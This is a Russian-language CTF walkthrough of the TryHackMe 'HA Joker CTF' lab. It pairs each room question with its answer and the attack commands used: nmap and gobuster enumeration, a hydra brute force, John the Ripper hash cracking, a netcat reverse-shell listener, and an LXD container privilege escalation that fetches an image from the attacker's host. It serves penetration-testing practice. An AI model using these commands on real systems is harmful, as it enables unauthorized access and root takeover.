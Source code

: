 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [HA Joker CTF](https://tryhackme.com/r/room/jokerctf) 

Всего 1 заданиe:
## Задание 1
Мы разработали эту лабораторную работу для практики проникновения в сети. Решить эту лабораторную работу не так уж и 
сложно, если у вас есть базовые знания по тестированию на проникновение. Давайте начнем и узнаем, как взломать ее.

Перечисление служб
- Nmap

Грубая сила
- Выполнение Bruteforce на файлах по http
- Выполнение Bruteforce на базовой аутентификации

Взлом хеша
- Выполнение перебора хеша для взлома zip-файла
- Выполнение перебора хеша для взлома пользователя mysql

Эксплуатация
- Получение обратного соединения
- Создание оболочки TTY

Повышение привилегий
- получите права root, воспользовавшись уязвимостями LXD


### Ответьте на вопросы ниже
Перечислить службы на целевой машине.
```commandline
nmap -sSCV <IP>
```
```commandline
Ответ не нужен
```
Какая версия Apache?
```commandline
2.4.29
```
Какой порт на этом компьютере не требует аутентификации с помощью пользователя и пароля?
```commandline
80
```
На этом порту есть файл, который, похоже, секретный. Что это?
```commandline
gobuster dir -u http://jokerctf.thm/ -w /usr/share/wordlists/dirb/common_nofirst10.txt -q -t 15 -x php,html,txt
```
```commandline
secret.txt
```
Есть еще один файл, который раскрывает информацию о бэкэнде. Что это?
```commandline
phpinfo.php
```
При чтении секретного файла мы обнаруживаем разговор, который, кажется, содержит как минимум двух пользователей и некоторые ключевые слова, которые могут быть интересны. Как вы думаете, какой это пользователь?
```commandline
joker
```
Какой порт на этом компьютере должен быть аутентифицирован с помощью базового механизма аутентификации?
```commandline
8080
```
На данный момент у нас есть один пользователь и URL-адрес, который необходимо аутентифицировать, а затем взломать его, чтобы получить пароль. Какой это пароль?
```commandline
hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 <IP> http-get/
```
```commandline
hannah
```
Да!! У нас есть пользователь и пароль, и мы видим блог на базе cms. Теперь проверьте каталоги и файлы в этом порту. Какой каталог выглядит как каталог администратора?
```commandline
gobuster -U joker -P hannah - dir -u http://<IP>:8080/ -w /usr/share/wordlists/dirb/common.txt 
-t 20
```
```commandline
/administrator/
```
Нам нужен доступ к администрированию сайта, чтобы получить оболочку, есть файл резервной копии, Что это за файл?
```commandline
nikto -h http://<IP>:8080/ -id joker:hannah
```
```commandline
backup.zip
```
У нас есть файл резервной копии, и теперь нам нужно поискать некоторую информацию, например, базу данных, файлы 
конфигурации и т. д. Но файл резервной копии, похоже, зашифрован. Какой пароль?
```commandline
zip2john backup.zip > joker.hash
sudo john joker.hash
```
```commandline
hannah
```
Помните, что... Нам нужен доступ к администрированию сайта... Бла-бла-бла. В нашем новом открытии мы видим некоторые файлы, которые содержат компрометирующую информацию, может быть db? окей, а что если мы сделаем восстановление базы данных! В некоторых таблицах должно быть что-то вроде user_table! Что такое супер-пупер user?
```commandline
admin
```
Супер-пупер-юзер! Какой пароль?
```commandline
echo '$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG' > pass.txt
sudo john pass.txt --show
```
```commandline
abcd1234
```
На этом этапе вам следует загрузить обратную оболочку, чтобы получить доступ к оболочке. Кто является владельцем этой сессии?
```commandline
php reverse shell
nc -nvlp 4444
whoami
```
```commandline
www-data
```
Этот пользователь принадлежит к группе, которая отличается от вашей группы. Что это за группа?
```commandline
id
```
```commandline
lxd
```
Создайте оболочку tty.
```commandline
python3 -c 'import pty; pty.spawn("/bin/bash");'
```
```commandline
Ответ не нужен
```
В этом вопросе вам следует провести базовое исследование того, как работают контейнеры Linux (LXD), есть небольшой 
онлайн-урок. Погуглите "lxd try it online". 
```commandline
https://www.hackingarticles.in/lxd-privilege-escalation/
```
```commandline
Ответ не нужен
```
Изучите, как повысить привилегии с помощью разрешений LXD, и проверьте, доступны ли на коробке какие-либо изображения.
```commandline
Ответ не нужен
```
Идея здесь в том, чтобы смонтировать корень файловой системы ОС на контейнере, это должно дать нам доступ к корневому каталогу. Создайте контейнер с привилегией true и смонтируйте корневую файловую систему на /mnt, чтобы получить доступ к каталогу /root на хост-машине.
```commandline
Ответ не нужен
```
Каково имя файла в каталоге /root?
```commandline
lxd init
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
sudo python3 -m http.server 80
cd /tmp
wget http://10.45.54.205:80/alpine-v3.12-x86_64-20200923_0009.tar.gz
lxc image import ./alpine-v3.12-x86_64-20200923_0009.tar.gz --alias myimage
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
ls /root
```
```commandline
final.txt
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)